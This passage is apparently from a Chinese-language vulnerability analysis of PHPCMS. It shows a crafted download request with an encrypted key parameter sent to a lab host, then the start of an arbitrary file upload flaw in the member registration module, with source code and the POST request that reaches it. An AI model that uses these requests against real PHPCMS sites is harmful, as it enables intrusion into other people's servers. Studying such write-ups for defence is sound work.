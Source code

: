 `730a-gH-hHP4GIszpc6Gf5OdQ2s8t8gb7dvK75XVlVpRLZXZJRyIpwS75QKFKFQdZWHR2xplUIVF9GrDL1PwCV25pcjljgKgO2MqbU7EcZYCaoSckKOjCSZE2Dp7a6xNNaNwmqnE9cN9Z4MBrCKJWtuXzytoEJ91_TRSkxbznvcm8VTU2LcMFTqoKdNNsCS5yWFFUMvd7Y5CGqtV4PVoN9jJ`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203122046457.png)

```
GET /index.php?m=content&c=down&a=init&aid=1&a_k=730a-gH-hHP4GIszpc6Gf5OdQ2s8t8gb7dvK75XVlVpRLZXZJRyIpwS75QKFKFQdZWHR2xplUIVF9GrDL1PwCV25pcjljgKgO2MqbU7EcZYCaoSckKOjCSZE2Dp7a6xNNaNwmqnE9cN9Z4MBrCKJWtuXzytoEJ91_TRSkxbznvcm8VTU2LcMFTqoKdNNsCS5yWFFUMvd7Y5CGqtV4PVoN9jJ HTTP/1.1
Host: 192.168.241.130:8080
Pragma: no-cache
Cache-Control: no-cache
DNT: 1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=q129buklbv2pojhu3fkfm4j0r4; XDEBUG_SESSION=XDEBUG_ECLIPSE
Connection: close

```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203122046123.png)

## phpcms/modules/member/index.php存在任意文件上传漏洞

在`register`函数中有以下功能

```php
if ($member_setting['choosemodel']) {
    require_once CACHE_MODEL_PATH . 'member_input.class.php';
    require_once CACHE_MODEL_PATH . 'member_update.class.php';
    $member_input = new member_input($userinfo['modelid']);
    $_POST['info'] = array_map('new_html_special_chars', $_POST['info']);
    $user_model_info = $member_input->get($_POST['info']);
}
```

到达这一功能点需要构造数据

```
http://192.168.241.130:8080/index.php?m=member&c=index&a=register&siteid=1

POST: dosubmit=1&username=123&nickname=123&email=a@a.com&password=123456&modelid=123
```

这里首先对`member_update.class.php`和`member_input.class.php`进行包含,然后实例化了一个`member_input`类,然后调用了`member_input`类中的`get`方法

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202203131542231.png)
